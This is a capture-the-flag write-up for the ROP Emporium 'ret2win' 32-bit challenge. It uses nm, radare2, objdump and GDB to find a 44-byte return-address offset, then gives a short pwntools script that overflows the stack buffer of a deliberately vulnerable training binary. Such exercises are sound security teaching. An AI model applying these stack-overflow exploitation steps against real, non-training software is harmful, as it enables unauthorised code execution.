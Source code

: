 ```yaml
---
layout: post
title: ROP Emporium Challenge 0 - ret2win (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.*
<!--more-->

# ret2win32

Link: https://ropemporium.com/challenge/ret2win.html


--------------------------


## 1. Studying the binary

List functions with:

```
nm ret2win32 | grep 't'
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_1.jpg)

Or with radare:

```
r2 ret2win32
aaaa
afl
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_2.jpg)

Then we can disassembly this function using again radare:

```
r2 ret2win32
aaaa
s sym.ret2win
pdf
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_3.jpg)

We can disassembly the main function too:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_4.jpg)


## 2. Calculating EIP overwrite offset

I will open GDB with GEF script:

```
gdb -q ./ret2win32
```

Using Python we create characters to test when it crashes:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_5.jpg)


With 45 we overwrite only 1 byte, so the offset is 44:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_6.jpg)

Note: It will be the same offset for all the 32 bits binaries of Rop Emporium.


## 3. Calling ret2win

We can find the function address with:

```
objdump -D ret2win32 | grep ret2win
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_7.jpg)

This address can be found also using gdb (*info functions*).

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_8.jpg)



## 4. Final exploit

The exploit code is then:

```
from pwn import *

context(arch='i386', os='linux')
p = process('./ret2win32')

junk =    "A"*44
ret2win = 0x08048659
rop = junk + p32(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

The result:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_9.jpg)
